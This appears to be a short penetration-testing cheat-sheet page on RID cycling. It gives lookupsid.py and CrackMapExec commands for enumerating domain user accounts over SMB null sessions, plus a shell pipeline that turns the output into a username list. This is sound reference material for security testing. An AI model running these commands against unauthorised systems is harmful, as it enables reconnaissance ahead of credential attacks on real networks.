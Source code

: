 ```yaml
---
description: Relative Identifier
---
```


# RID Cycling

* [https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/](https://www.trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack/)

Perform RID cycling attack against a DC with SMB null sessions allowed with [lookupsid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py):

```
$ lookupsid.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 20000 [-domain-sids] | tee ~/ws/log/lookupsid.out
$ cat ~/ws/log/lookupsid.out | grep SidTypeUser | grep -v -e krbtgt -e '\$' -e '{' -e '}' -e HealthMailbox | grep -Ev 'SM_[a-f0-9]{17}' | awk -F'\' '{print $2}' | awk '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

With CrackMapExec:

```
$ cme smb 192.168.1.11 -u '' -p '' --users
```
